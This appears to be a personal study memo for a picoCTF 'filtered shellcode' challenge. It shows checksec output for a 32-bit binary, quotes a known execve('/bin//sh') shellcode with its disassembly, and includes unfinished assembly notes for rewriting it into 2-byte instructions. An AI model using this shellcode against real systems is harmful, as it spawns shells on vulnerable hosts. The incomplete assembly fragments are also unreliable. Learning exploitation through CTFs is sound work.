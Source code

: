 # Lesson
- shellcode  
  - Linux system calls set arguments in registers and are invoked by a software interrupt using "int 0x80".  
    - https://www.mztn.org/lxasm/int80.html  
    - https://www.mztn.org/lxasm/asm04.html  
- system call  
  - https://os.pubpub.org/pub/blog-1/release/4  
- kernel  
- how to understand a logic  
  - (light) grisp the overview with gdb  
  - (heavy) read code manually  

# Memo
1. check  
```zsh
$ file fun
fun: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=325e35378982f451f374c7140c5249bb1c52ab18, not stripped
$
$ checksec --file=./fun --output=json | jq .
{
  "./fun": {
    "relro": "partial",
    "canary": "no",
    "nx": "no",
    "pie": "no",
    "rpath": "no",
    "runpath": "no",
    "symbols": "yes",
    "fortify_source": "no",
    "fortified": "0",
    "fortify-able": "0"
  }
}
```

2. ghidra  

3. create shellcode  
https://shell-storm.org/shellcode/files/shellcode-517.html  
```
"\x31\xc9"                  // xor    %ecx,%ecx
"\xf7\xe1"                  // mul    %ecx
"\x51"                      // push   %ecx
"\x68\x2f\x2f\x73\x68"      // push   $0x68732f2f
"\x68\x2f\x62\x69\x6e"      // push   $0x6e69622f
"\x89\xe3"                  // mov    %esp,%ebx
"\xb0\x0b"                  // mov    $0xb,%al
"\xcd\x80"                  // int    $0x80
```
2 byte
```zsh
$ pwn asm -c 32 nop
90
$ pwn asm -c 32 "nop;nop"
9090
$ pwn asm -c 32 "push eax"
50
```
```
"\x31\xc9"                  // xor    %ecx,%ecx
"\xf7\xe1"                  // mul    %ecx
"\x51"                      // push   %ecx

"\x68\x2f\x2f\x73\x68"      // push   $0x68732f2f

mov al, 0x62                     #writes 'b' on the lowes byte of the eax 2nd byte of the stack 
add [edi], al
inc edi
nop

mov al,

push eax


"\x68\x2f\x62\x69\x6e"      // push   $0x6e69622f

"\x89\xe3"                  // mov    %esp,%ebx
"\xb0\x0b"                  // mov    $0xb,%al
"\xcd\x80"                  // int    $0x80
```

# Ref
- https://cyb3rwhitesnake.medium.com/picoctf-filtered-shellcode-pwn-3d69010376df  
- https://sh0ebill.hatenablog.com/entry/2022/11/13/204614  
- https://zenn.dev/t0m3y/scraps/275ba361c564c8  
